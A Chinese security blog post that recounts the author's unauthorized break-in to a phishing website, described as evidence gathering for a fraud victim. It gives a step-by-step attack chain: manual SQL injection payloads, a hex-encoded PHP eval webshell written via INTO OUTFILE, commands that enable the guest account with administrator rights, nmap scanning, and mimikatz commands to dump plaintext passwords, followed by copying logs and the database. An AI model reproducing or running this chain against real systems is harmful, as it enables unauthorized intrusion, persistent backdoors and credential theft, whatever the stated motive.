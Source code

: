 ```yaml
---
layout: post
title:  "[Web安全]记一次钓鱼网站调查取证"
date:   2018-07-14 9:51
categories: jekyll
permalink: /archivers/Traceability-go-fishing-website-20180714
---
```

##0x00 前言
  前段时间加了个设计群,某人说朋友被骗钱在群里吐了两天苦水,原先真不打算管这事,没太多时间管闲事.无奈昨晚下了场大雨,没办法出门跑步,一时技痒就顺道把钓鱼站黑了顺道把网站日志跟服务器登陆日志打包出来.所以有了这篇文章记录一下过程.
##0x01 溯源准备
  ![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714100404.jpg)<br />
###1.1 开始
看到链接下看到后缀php?uid=,初步判断应该是php+mysql的网站..复制链接到电脑浏览器打开后下意识职业病uid=87'
<br />  ![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714101207.jpg)<br />
  ![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714101745.png)<br />
###1.2 爆出路径,可能存在sql注入
得到路径D:\xxxxx\zz\index.php，加上header头数据初步判断得出是Windows+Apache+Php+Mysql的网站,能爆路径很概率会有Sql注入,我们先记录下来路径是D:\xxxxx\
>http://www.xxxx.cn/zz/index.php?zt=1&uid=87 xor 1=1 //返回正常

>http://www.xxxx.cn/zz/index.php?zt=1&uid=87 xor 1=2 //返回错误

![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714103406.png)

![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/8f83af916f494821bc2980ac6d539759.jpeg)

###1.3 有sql注入
本来想掏出SQLMAP一把梭,结果sqlmap居然没注入出来..可能是我的操作有问题..只能手工注入了.

###1.4 猜字段数目,当尝试注入语句字段个数为26返回正确,27返回错误,说明字段数等于26.

>http://www.xxxx.cn/zz/index.php?zt=1&uid=87 order by 26 //返回正常

>http://www.xxxx.cn/zz/index.php?zt=1&uid=87 order by 27 //返回错误

![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714104806.png)

###1.5 联合查询语句，暴出可显示字段

>http://www.xxxxx.cn/zz/index.php?zt=1&uid=87 xor 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26

###1.6 暴出数据库用户、版本、库名和路径信息.

>system_user() 系统用户名
>user() 用户名
>current_user当前用户名
>session_user()连接数据库的用户名
>database() 数据库名
>version() MYSQL 数据库版本
>load_file() MYSQL 读取本地文件的函数
>@@datadir 读取数据库路径
>@@basedir MYSQL 安装路径
>@@version_compile_os 操作系统 

>http://www.xxxx.cn/zz/index.php?zt=1&uid=87 xor 1=2 union select 1,2,3,4,user(),database(),7,8,version(),10,11,12,@@basedir,14,15,16,17,18,19,20,21,22,23,24,25,26
![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714122723.png)

运气不错是root权限,不用大费周章跑去后台传马,直接写,记录信息root@localhost^^5.5.40^^xxxx^^D:/phpStudy/MySQL/

###1.7 写入webshell
结合我们刚才爆出的网站路径D:\xxxxx\zz\ 
php一句话<?php eval($_POST['test'])?>
去https://www.107000.com/T-Hex/ 转成hex16进制加上0x
得出写入webhsell语句.

>http://www.xxxxx.cn/zz/index.php?zt=1&uid=87 xor 1=2 union select 1,2,3,4,0x3C3F706870206576616C28245F504F53545B2774657374275D293F3E,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26 into outfile 'D:/xxxxx/zz/weiho.php'


###1.8 提升权限

![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714124904.png)
连接上去看一下权限,Administrator..典型phpstudy安装完啥也不管直接把站丢上去的情况..还想着要不Mysql UDF或者MOF提权.这里接下来有两种做法,直接启用guest,添加密码以及管理员权限.第二种下个wce读取明文,以administrator的权限登陆.Ps:wce需要管理员或管理员以上的权限才可以,一般情况下配合本地提权exploit,但这里是Administrator.可以忽略掉要提权的操作.不过我们这里选前者,直接启用guest账号.先查看下对方在不在VPS里.状态:断开.
>query users //查看登陆
>
>用户名                会话名             ID  状态    空闲时间   登录时间
>
>administrator                             2  断开      1+21:09  2018/7/11 23:15
>
>net user guest /active:yes &net localgroup administrators guest /add & net user guest weiho4444@
>
>命令成功完成。
>

###1.9 登陆远程桌面
>nmap -sS -A -v -p- --open xxxx.cn

我进来这服务器前用nmap大概扫了一下.有三个端口开放80,3306,3389.本来想爆破3306.telnet过去没到三秒结束会话,后面登陆才发现设置了IP.3389一般是远程桌面的端口.直接本地连过去就行了.
运行远程桌面
>mstsc

###1.10 读取明文密码
https://github.com/gentilkiwi/mimikatz/releases/tag/2.1.1-20180616
先下载回来,由于这VPS是x86系统所以运行x86的mimikatz

Ps:一定要是管理员权限才能运行.
>privilege::debug
>
>sekurlsa::logonpasswords
![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714135136.png)

得到管理员administrator密码540cxxxxxx.把自己账号禁了,以管理员进去.


##0x02 开始溯源
###2.1 拷贝系统日志Security和System
>C:\Windows\System32\winevt\Logs

###2.2 Apache日志 error.log
>"C:\Program Files\WinRAR\Rar.exe" a -k -r -s -m1 D:\xxxxxx\error.rar D:\phpStudy\Apache\logs

###2.3 打包网站源码
>"C:\Program Files\WinRAR\Rar.exe" a -k -r -s -m1 D:\xxxxxx\1.rar D:\xxxxx\

###2.4 导出mysql数据库
mysqldump -uroot -proot123456 dbname > D:\xxxxx\dbname.sql


![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714141302.png)

##0x03 后话
  把数据打包后,让那哥们交民警结果人家民警同志不信..说我数据可能伪造.我说让民警直接联系我吧,然后blabla不了了之,就立了案.OMG.大写服气.后面让玄道转交给江苏的网警同志.今天(7.14)记录一下昨晚(7.13)的大概过程.中间省略了一些不太必要的过程.

##0x04
>参考资料
>
>[一个PHP+Mysql手工注入例子](https://blog.csdn.net/praifire/article/details/51926863)
>
>[Mysql注入方式](https://www.cnblogs.com/0x03/p/7451292.html)
>
>[Hex编码解码](https://www.107000.com/T-Hex/)
>
>[caidao](https://github.com/pythonsky/caidao-20160620-www.maicaidao.com)
>
>[mimikatz](https://github.com/gentilkiwi/mimikatz)

>[使用mimikatz_trunk获取计算机密码](https://jingyan.baidu.com/album/e52e36154c3ff140c70c515f.html)
